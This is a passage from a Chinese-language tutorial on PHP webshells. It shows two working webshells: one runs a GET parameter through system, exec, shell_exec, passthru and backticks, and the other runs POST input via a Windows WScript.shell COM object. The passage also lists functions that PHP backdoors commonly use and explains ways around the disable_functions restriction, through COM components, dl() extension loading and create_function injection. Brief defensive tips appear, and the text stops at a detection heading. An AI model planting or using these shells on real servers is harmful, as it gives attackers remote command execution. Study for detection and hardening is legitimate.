 ```
<?php$cmd="system";ob_start($cmd);echo "$_GET[cunlide]";ob_end_flush();echo "<br>";system("$_GET[cunlide]");echo "<br>";echo exec("$_GET[cunlide]");echo "<br>";echo shell_exec("$_GET[cunlide]");echo "<br>";echo passthru("$_GET[cunlide]");echo "<br>";echo `$_GET[cunlide]`;?>
```



3、PHP后门木马常用的函数类型：

执行系统命令：system, passthru, shell_exec, exec, popen, proc_open

代码执行与加密：eval, assert, call_user_func,base64_decode, gzinflate, gzuncompress, gzdecode, str_rot13

文件包含与生成：require，require_once，include,  include_once，file_get_contents, file_put_contents, fputs, fwrite

htaccess：SetHandler, auto_prepend_file, auto_append_file

## 二、绕过disable_functions的方法：

禁止 webshell 执行命令原理：PHP配置文件里的disable_functions =  配置，用来禁止某些 php 函数。

1、 黑名单绕过

2、 系统组件绕过（Windows）：

- 
- 
- 
- 
- 
- 
- 
- 

```
<?php$command=$_POST[a];$wsh = new COM('WScript.shell');   // 生成一个 COM 对象$exec = $wsh->exec('cmd.exe /c '.$command); //调用对象方法来执行命令$stdout = $exec->StdOut();$stroutput = $stdout->ReadAll();echo $stroutput?>
```



Shell.Application 也可以实现同样的效果。

彻底的解决方案是直接删除 System32 目录下 wshom.ocx 文件。

3、 扩展库绕过：Linux下可通过编译拓展库进行绕过。

防御方法：将dl函数加入disable_function中禁用。

使用PHP突破Disable_functions执行Linux命令：linux 的 webshell 管理员禁用了exec，system，passthru，popen，shell_exec等等 PHP 执行命令函数，导致不能执行命令，php 提供了一个扩展模块功能，使用 dl 函数能包含一个扩展模块。类似.so或者想windows下的 dll 文件。可以自定义函数来调用 linux 命令而无视Disable_functions的限制。

在PHP中使用create_function()创建匿名函数，如果没有严格对参数传递进行过滤，攻击者可以构造特殊字符串传递给 create_function()执行任意命令。

## 三、检测方法：
